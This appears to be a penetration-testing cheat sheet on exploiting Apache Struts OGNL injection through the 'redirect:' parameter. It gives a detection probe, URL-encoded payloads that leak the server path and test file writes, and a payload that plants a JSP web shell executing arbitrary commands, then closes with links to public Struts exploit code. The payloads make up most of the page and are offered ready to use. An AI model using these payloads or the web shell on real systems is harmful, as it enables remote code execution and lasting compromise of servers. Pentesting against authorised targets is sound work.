 # Apahe Struts
**.action** and **.do** file are indications of Apache Structs 
On .do pages that you want to test, try browsing to 
*http://www.example.com/appFolder/index.do?redirect:${3&ast;4}*
Also try submitting as a POST request. 
If you are redirected to /12, then the application is vulnerable

**Get current directory:**
```
redirect%3A%24%7B%23a%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27)%2C%23b%3D%23a.getRealPath(%22%2F%22)%2C%23c%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27)%2C%0A%23c.getWriter().println(%23b)%2C%23c.getWriter().flush()%2C%23c.getWriter().close()%7D=
```

**Test ability to write to file:**
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter(%22<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.txt%22)).append('123').close()} 
```
*Check if /alfejawk7feafs.txt exists*

**Write web shell:**
*Do not attempt this unless you can get the above file write to work*
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter("<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.jsp")).append('<%25%40+page+import%3d"java.util.*,java.io.*"%25><HTML><BODY><FORM+METHOD%3d"GET"+NAME%3d"myform"+ACTION%3d""><INPUT+TYPE%3d"text"+NAME%3d"cmd"><INPUT+TYPE%3d"submit"+VALUE%3d"Send"></FORM><pre><%25out.println("Command%3a+"+%2b+request.getParameter("cmd")+%2b+"<BR>")%3bProcess+p+%3d+Runtime.getRuntime().exec(request.getParameter("cmd"))%3bOutputStream+os+%3d+p.getOutputStream()%3bInputStream+in+%3d+p.getInputStream()%3bDataInputStream+dis+%3d+new+DataInputStream(in)%3bString+disr+%3d+dis.readLine()%3bwhile+(+disr+!%3d+null+)+{out.println(disr)%3bdisr+%3d+dis.readLine()%3b}%25></pre></BODY></HTML>').close()}=
```
You should then be able to use the web shell: `/alfejawk7feafs.jsp?cmd=ls`


Additional resources
```
https://packetstormsecurity.com/files/141494/S2-45-poc.py.txt 
https://github.com/pwntester/S2-046-PoC 
RCE via XML parser 
https://github.com/mazen160/struts-pwn_CVE-2017-9805
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://github.com/pr4jwal/quick-scripts/blob/master/s2-057.py
```
